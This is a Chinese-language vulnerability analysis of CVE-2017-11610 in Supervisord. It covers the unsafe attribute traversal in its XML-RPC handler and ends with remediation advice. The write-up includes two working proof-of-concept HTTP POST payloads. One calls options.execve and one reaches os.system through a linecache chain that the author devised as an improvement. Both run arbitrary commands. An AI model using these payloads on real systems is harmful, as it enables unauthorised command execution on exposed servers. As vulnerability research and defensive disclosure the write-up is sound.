


# Supervisord远程命令执行漏洞分析


## 1.&emsp;漏洞描述

* 漏洞描述：Supervisord曝出了一个需认证的远程命令执行漏洞（CVE-2017-11610），通过POST请求Supervisord管理界面恶意数据，可以获取服务器操作权限，存在严重的安全风险。
* 漏洞编号：CVE-2017-11610
* 漏洞等级：高危
* 影响版本：
  * Supervisor version 3.1.2
  * Supervisor version 3.3.2

## 2.&emsp;Supervisord简介

Supervisord 是一款 Python 开发，用于管理后台应用（服务）的工具，其角色类似于 Linux 自带的 Systemd。

相比 Systemd 而言，Supervisord 有几个特点：

1. 配置比较简单
2. 一个简单的第三方应用，与系统没有耦合
3. 提供HTTP API，支持远程操作

Supervisord 的架构分为 Server 和 Client，Server 以一个服务的形式，跑在系统后台，而 Client 是一个命令行工具，其实就是根据用户的要求，调用 Server 提供的 API，执行一些工作。

查看 Supervisord 的配置文件可知，默认情况下，Server 端监听在 unix 套接字`unix:///tmp/supervisor.sock` 上，而 Client 配置的 serverurl 也是这个地址：

```shell
[unix_http_server]
file=/tmp/supervisor.sock   ; the path to the socket file
;chmod=0700                 ; socket file mode (default 0700)
;chown=nobody:nogroup       ; socket file uid:gid owner
;username=user              ; default is no username (open server)
;password=123               ; default is no password (open server)

;[inet_http_server]         ; inet (TCP) server disabled by default
;port=127.0.0.1:9001        ; ip_address:port specifier, *:port for all iface
;username=user              ; default is no username (open server)
;password=123               ; default is no password (open server)

[supervisorctl]
serverurl=unix:///tmp/supervisor.sock ; use a unix:// URL  for a unix socket
;serverurl=http://127.0.0.1:9001 ; use an http:// url to specify an inet socket
;username=chris              ; should be same as in [*_http_server] if set
;password=123                ; should be same as in [*_http_server] if set
;prompt=mysupervisor         ; cmd line prompt (default "supervisor")
;history_file=~/.sc_history  ; use readline history if available
```

所以，Client 端去连接配置文件中的 serverurl 的地址，并与其使用 RPC 协议（基于 HTTP 协议）通信。比如我们平时常用的命令（启动名为 web 的服务）：`supervisorctl start web`，看下其数据包：



其实很简单的协议，通过XML，将methodName和params通过HTTP协议传给服务端进行执行。`start`命令执行的是`supervisor.startProcess`方法，仅有一个参数就是服务的名称。

另外，如果我设置了`[inet_http_server]`段，即可将Supervisord监听在TCP端口上，这样外部其他程序也能进行调用。我们可以直接将默认配置文件中这一段前面的分号去掉，就默认监听在9001端口上了。

## 3.&emsp;漏洞分析

### 3.1 漏洞原理分析

CVE-2017-11610的本质是一个不安全的对象引用+方法调用，十分类似Java中的反序列化漏洞。

Supervisord的控制实际上就是一个C/S以RPC协议的通信的过程，而RPC协议（远程过程调用协议），顾名思义就是C端通过RPC协议可以在S端执行某个函数，并得到返回结果。那么，如果C端执行了S端预料之外的函数（如`os.system`），那么就会导致漏洞的产生。

一个安全的RPC协议，会有一个函数名的映射，也就是说C端只能调用在白名单之中的部分函数，并且这个“函数”只是真正函数的一个映射。

而我们来看看3.3.2版本中Supervisord是如何处理RPC调用的：

```python
class supervisor_xmlrpc_handler(xmlrpc_handler):
    ...

    def call(self, method, params):
        return traverse(self.rpcinterface, method, params)

def traverse(ob, method, params):
    path = method.split('.')
    for name in path:
        if name.startswith('_'):
            # security (don't allow things that start with an underscore to
            # be called remotely)
            raise RPCError(Faults.UNKNOWN_METHOD)
        ob = getattr(ob, name, None)
        if ob is None:
            raise RPCError(Faults.UNKNOWN_METHOD)

    try:
        return ob(*params)
    except TypeError:
        raise RPCError(Faults.INCORRECT_PARAMETERS)
```

`supervisor_xmlrpc_handlerl`类用于处理RPC请求，其call方法就是真正执行远程调用的函数。在call方法中调用了traverse函数，跟进这个函数，我们发现他的逻辑是这样：

1. 将method用点号分割成数组path
2. 遍历这个数组，每次获得一个name
3. 如果name不以下划线开头，则获取ob对象的name属性，其作为新的ob对象
4. 遍历完成后获得最终的ob对象，调用之

所以，实际上这个函数最后达成的效果就是：**初始ob对象下的任意public方法，包括它的所有递归子对象的任意public方法，都可以被调用。**

而此处，ob对象即为`self.rpcinterface`，官方开发者可能认为可调用的方法只限制在这个对象内部，所以没有做特别严格的白名单限制。

而CVE-2017-11610的发现者发现，在`self.rpcinterface.supervisor.supervisord.options`对象下，有一个方法`execve`，其相当于直接调用了系统的`os.execve`函数，是可以直接执行任意命令的：

```python
class ServerOptions(Options):
    ...    
    def execve(self, filename, argv, env):
        return os.execve(filename, argv, env)
```

所以，最后给出利用POC（RPC协议如何构造数据包、XML是什么格式，这个可以自己去看看文档）：

```http
POST /RPC2 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 439

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.execve</methodName>
<params>
<param>
<string>/usr/local/bin/python</string>
</param>
<param>
<array>
<data>
<value><string>python</string></value>
<value><string>-c</string></value>
<value><string>import os;os.system('touch /tmp/success');</string></value>
</data>
</array>
</param>
<param>
<struct>
</struct>
</param>
</params>
</methodCall>
```

当然，漏洞发现者找到的这个`self.rpcinterface.supervisor.supervisord.options.execve`其实不是那么好用，原因是，Python的`os.execve`函数会使用新进程取代现有的进程。也就是说，这里会导致Supervisord本身退出。

### 3.2 漏洞POC改进

这个漏洞和一些反序列化漏洞类似，都是去找到一个不安全的对象。那么，除了原作者给出的`self.rpcinterface.supervisor.supervisord.options.execve()`，是不是还可以找到其他更好用的利用链呢？

通过一系列调试，我找到了一个利用链：`supervisor.supervisord.options.warnings.linecache.os.system()`，其实目的很简单，就是想方设法找到非下划线开头的属性中，是否有引用os模块。linecache中引用了os模块：



所以，构造如下数据包：

```http
POST /RPC2 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 275

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
<params>
<param>
<string>touch /tmp/success</string>
</param>
</params>
</methodCall>
```

即可直接执行任意命令。

## 4.&emsp;修复方案

出现这个漏洞，一般有几个条件：

1. Supervisord版本在受影响的范围内
2. RPC端口可被访问
3. RPC无密码或密码脆弱

第二个条件其实不太容易达到。默认安装的Supervisord，是只监听unix套接字的，所以外部IP根本无法访问。

另外，如果你已经拿到了一台机器的低权限，想访问本地的unix套接字，利用该漏洞提权，也是不现实的：原因是supervisord.sock文件权限默认是0700，其他用户无法访问，能够访问的用户权限和它是一样的，也就不存在提权的说法了。

当然，如果运维同学不小心将RPC端口开放了，并且使用了默认密码或没有设置密码，那么借助这个漏洞进行攻击，也是很不错的。

如何修复这个漏洞？

1. 升级Supervisord
2. 端口访问控制
3. 设置复杂RPC密码

## 5.   参考链接

[https://www.leavesongs.com/PENETRATION/supervisord-RCE-CVE-2017-11610.html?spm=5176.7757631.2.1.35Vg7F#supervisord](https://www.leavesongs.com/PENETRATION/supervisord-RCE-CVE-2017-11610.html?spm=5176.7757631.2.1.35Vg7F#supervisord "https://www.leavesongs.com/PENETRATION/supervisord-RCE-CVE-2017-11610.html?spm=5176.7757631.2.1.35Vg7F#supervisord")
